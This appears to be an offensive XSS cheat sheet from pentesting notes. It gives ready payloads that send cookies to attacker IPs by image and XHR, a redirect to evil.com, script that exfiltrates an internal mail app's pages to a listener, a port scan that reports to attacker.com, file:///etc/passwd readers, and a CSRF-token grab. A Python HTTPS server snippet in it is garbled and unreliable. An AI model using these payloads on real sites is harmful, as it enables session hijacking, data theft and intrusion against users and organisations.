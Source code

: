 # Exploitation


### Cookie Stealing

##### Basic/Classic

```
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```

##### Bypassing secure flag protection

We can also use [Certbot](Certbot.md)

Creating a HTTP server

```
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Generating certificate

```
#!/usr/bin/python3
import http.server, sslserver_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address,
http.server.SimpleHTTPRequestHandler)
httpd.socket =
ssl.wrap_socket(httpd.socket,server_side=True,certfile='local
host.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()
```

##### Via XHR

```
var xhr=new XMLHttpRequest();
xhr.open("GET", "https://10.10.14.8/?"+document.cookie,
true);
xhr.send();
```

### Open Redirect

```
<script>window.location.replace("http://evil.com");</script>
```


### Accessing Internal application 

```
var url="http://mail.stacked.htb/" //targeturl(internal wep
application)
var xhr=new XMLHttpRequest();
xhr.open("GET", url, false);
xhr.send();
var resp=xhr.responseText;//transferring HTTP response to us
var xhr2=new XMLHttpRequest();
xhr2.open("POST", 'http://10.10.14.89:443/', false);
xhr2.send(resp);
```

```
<script src="http://10.10.14.89/apni.js"></script>
```

we need to lister like `nc -lvnp 443 > filename.html` then we can see the internal application html.

### Port Scan

```
<script>
const checkPort = (port) => {
fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
let img = document.createElement("img");
img.src = `http://attacker.com/ping?port=${port}`;
});
}
for(let i=0; i<1000; i++) {
checkPort(i);
}
</script>
```

```
<img src="https://attacker.com/startingScan">
```

#### Read local File

```
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```
<iframe src=file:///etc/passwd></iframe>

<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>

<link rel=attachment href="file:///root/secret.txt">

<object data="file:///etc/passwd">

<portal src="file:///etc/passwd" id=portal>

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File:/etc/passwd" pos-x="195" />
```

Send a request to get a csrf-value 

```
var url = "/[user/new](https://hackme5.coupadev.com/user/new)";var xhr = new XMLHttpRequest();  
    xhr.responseType = "document";  
    xhr.open("GET", url, true);  
    xhr.onload = function (e) {  
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {  
            page = xhr.response  
            // Get the csrf token from meta tag  
            token = page.getElementsByName('csrf-token')[0].getAttribute('content')  
            // Show the token  
            console.log("The token is: " + token);  
        }  
    };  
    xhr.send(null);
```

